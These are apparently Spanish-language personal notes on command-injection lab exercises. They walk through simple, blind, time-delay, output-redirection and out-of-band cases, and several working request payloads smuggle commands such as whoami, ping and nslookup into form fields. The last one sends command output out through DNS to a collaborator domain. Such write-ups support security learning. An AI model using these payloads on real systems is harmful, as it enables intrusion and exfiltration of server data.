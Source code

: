 # OS command injection


# OS command injection, simple case

El caso mas simple en donde se consulta el stock se le agrega el | y el comando

```
productId=1&storeId=1|whoami

```

Otra forma de inyectar comandos HTB PhotoBoom

```
photo=tabitha-turner-8hg0xRg5QIs-unsplash.jpg&filetype=jpg&dimensions=1000x1500;ping -c 1 10.10.14.34;

```

# Blind OS command injection with time delays

En este caso se inyectan comandos en Submmit feedback se usa de nueva cuenta el pipe |

```
csrf=fTYXLcrD0AxoStj3Bo0z58nhjs22Oep5&name=Masa&email=masa%40gmail.com||ping+-c+10+127.0.0.1||&subject=abcd1234&message=Comment
```

# Blind OS command injection with output redirection

Para este laboratorio no se refleja el comanod inyectado en el email de submitt feedback sin embargo se puede redireccionar a una carpeta con 
permisos de escritura /var/wwww/images( desde donde se cargan las imagenes) si damos clic derecho en una imagen y le ponemos cargar en una pestaña
nos da image?filename=image.jpg entonces si se cargan de esa ruta podriamos hacer algo como image?filename=out.txt.

```
csrf=Kfbe6pN4ThGKonJGCUZmmSS2tzjh6CF0&name=Masa&email=masa%40gmail.com|whoami>out4.txt||&subject=abcd1234&message=Comment

```
NO olvides que si no agregas los 2 || al final no se porque pero no sirve.

# Blind OS command injection with out-of-band interaction

Para este laboratorio se utilizo el Burp colaborator Client de nueva cuenta la vulnerabilidad reside en el Submit feedback y cuando se genera un 
 DNS lookup to Burp Collaborator es cuando se resuelve el lab

```
csrf=ItkBikPD69urSsgTDkHVZmvP8g1NiQj8&name=Masa&email=masa%40gmail.com|ping woojq6yqontbtnxg748e0indw42wql.oastify.com||&subject=abcd1234&message=Comment
```

# Blind OS command injection with out-of-band data exfiltration

De este laboratorio hay varias cosas a destacar primero se recuerda que hace la herramienta nslookup. Despues se utilizan las comillas invertidas para ejecutar un comando es muy parecido a $() solo que no crea una subshell. para resolver este lab se hizo uso del Burp colaborator y ademas se usa dobel ||

> Muy práctica y fácil de usar, cuya función básica es encontrar la dirección IP de un equipo determinado o realizar una búsqueda DNS inversa (es decir, encontrar el nombre de dominio de una determinada dirección IP).


```

email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||

```












